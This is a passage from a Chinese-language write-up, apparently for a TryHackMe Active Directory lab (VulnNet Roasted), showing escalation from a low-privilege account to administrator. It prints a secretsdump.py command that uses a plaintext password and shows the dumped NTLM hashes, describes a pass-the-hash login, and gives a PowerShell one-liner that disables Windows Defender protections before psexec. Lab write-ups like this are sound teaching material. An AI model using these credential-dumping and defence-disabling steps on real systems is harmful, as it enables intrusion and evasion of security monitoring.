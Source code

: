 ```bash
...

root@ip-10-10-7-104:~/vulnnetroasted#
```

### a-whitehat

使用上面得到的密码进行登陆

![20240630232030](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240630232030.png)

### a-whitehat —> administrator
使用得到的密码进行查看 SMB 服务

![20240630232046](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240630232046.png)

<Tabs>
  <TabItem value="one" label="第一种方式 (转储哈希)" default>
      我发现可以对 ADMIN$ 共享具有读写权限, 因此可以利用此来进行转储哈希

```bash
root@ip-10-10-7-104:~/vulnnetroasted#  secretsdump.py VULNNET-RST.local/a-whitehat:bNdKVkjv3RR9ht@10.10.216.79
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xf10a2788aef5f622149a41b2c745f49a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
```

使用得到的哈希值登陆 administrator 用户进行 PTH 攻击

![20240630232219](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240630232219.png)

  </TabItem>
  <TabItem value="two" label="第二种方式 (psexec)">
      先执行下面命令关闭防火墙

```bash
Set-MpPreference -DisableRealtimeMonitoring $true;Set-MpPreference -DisableIOAVProtection $true;Set-MPPreference -DisableBehaviorMonitoring $true;Set-MPPreference -DisableBlockAtFirstSeen $true;Set-MPPreference -DisableEmailScanning $true;Set-MPPReference -DisableScriptScanning $true;Set-MpPreference -DisableIOAVProtection $true
```

然后使用 psexec.py 进行攻击
